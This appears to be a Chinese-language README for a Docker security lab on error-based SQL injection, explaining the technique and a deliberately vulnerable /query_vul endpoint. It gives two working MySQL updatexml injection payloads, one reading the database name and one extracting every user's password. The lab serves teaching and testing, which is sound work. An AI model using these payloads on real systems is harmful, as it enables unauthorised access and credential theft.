




# 报错注入

## 原理
在某些情况下，SQL语句运行出错时错误信息会显示到前端页面上，某些数据库函数的错误信息里会包含数据信息，攻击者可通过构造特定的SQL语句，将要窃取的数据通过报错信息泄露出来。

## 环境说明

启动环境:
```bash
docker-compose up -d
```
访问 6080 端口


环境实现了一个简单的数据库查询功能，`/query_vul` API 存在 SQL 注入漏洞，并且会把 SQL 错误信息直接返回给前端, `/query` 接口不存在 SQL 注入问题。


获取数据库名称
```
admin' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23
```


使用报错注入获取数据库中用户的密码
```
admin' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1)%23
```

